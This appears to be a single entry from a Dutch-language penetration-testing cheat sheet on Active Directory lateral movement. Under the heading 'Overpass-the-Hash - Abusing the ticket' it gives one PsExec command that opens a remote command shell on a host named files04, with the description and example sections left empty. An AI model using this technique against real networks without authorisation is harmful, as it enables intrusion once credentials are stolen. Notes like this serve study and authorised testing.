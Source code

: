 # 24. AD Lateral Movement — Entry 29

## Categorie

Overpass-the-Hash - Abusing the ticket

## Commando

```
.\PsExec.exe \\files04 cmd
```

## Omschrijving

_(empty)_

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_


